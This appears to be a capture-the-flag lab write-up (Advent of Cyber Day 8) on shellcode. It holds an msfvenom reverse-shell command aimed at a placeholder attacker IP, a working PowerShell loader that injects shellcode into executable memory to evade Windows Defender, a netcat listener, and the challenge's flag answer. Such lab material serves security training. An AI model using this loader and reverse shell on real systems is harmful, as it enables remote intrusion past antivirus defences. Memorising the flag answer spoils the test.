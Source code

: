 # Day 08[Shellcodes]: Shellcodes of the worlds, unite!

## Story :
Glitch was preparing for a conference to showcase his shellcode script to access his home server.But Mayor Malware's Henchmen were waiting too get remote access to his homeserver and get a secret research paper by glitch for the mayor. 

## Learning Objectives : 
- Grasp the fundamentals of writing shellcode
- Generate shellcode for reverse shells
- Executing shellcode with PowerShell

## Abbreviations and Applications :
- [Powershell](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4) : command-line shell in Windows.

## Process Key Steps and Points :
- Shellcode, a malicious code used in exploits like buffer overflow attacks, injects commands into vulnerable systems, often executing arbitrary commands or gaining control over compromised machines. Written in assembly language, it’s delivered through various techniques.

- PowerShell, a powerful scripting language and command-line shell in Windows, enables task automation and configuration management. However, attackers exploit it due to its deep access to system resources and ability to run scripts in memory, evading disk-based detection.

- Windows Defender, a built-in security feature, detects and prevents malicious scripts, including PowerShell-based attacks, by scanning code at runtime. Common bypass methods include obfuscating scripts and reflective injection, where malicious code is loaded directly into memory. We’ll focus on reflective injection in this task.

- The Windows API, a bridge between applications and the operating system, allows programs to interact with essential system functions like memory management, file operations, and networking. It’s crucial for many exploitation techniques and malware manipulation. Common Windows API functions used by malicious actors include VirtualAlloc, CreateThread, and WaitForSingleObject, which we’ll also use in this task.
- Accessing Windows API via PowerShell Reflection is an advanced technique that enables dynamic interaction with the Windows API from PowerShell. Instead of relying on precompiled binaries, it allows attackers to call Windows API functions directly at runtime, enabling manipulation of low-level system processes and bypassing security mechanisms.

- A reverse shell is a type of connection where the target machine initiates a connection back to the attacker’s machine. 

## Tools and Commands Used :
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` : Generate powershell shellcode
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```
- And the `SHELLCODE_PLACEHOLDER` is the output from `msfvenom`.
- `nc -nvlp 1111` : netcat listen on port 1111 with verbose enabled
  
## Questions, Hints and Answers :
1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.
   > ![flagtxt](/Screenshots/D8.png)
   > Ans : `AOC{GOT _MY_ACCESS_B@CK007}`
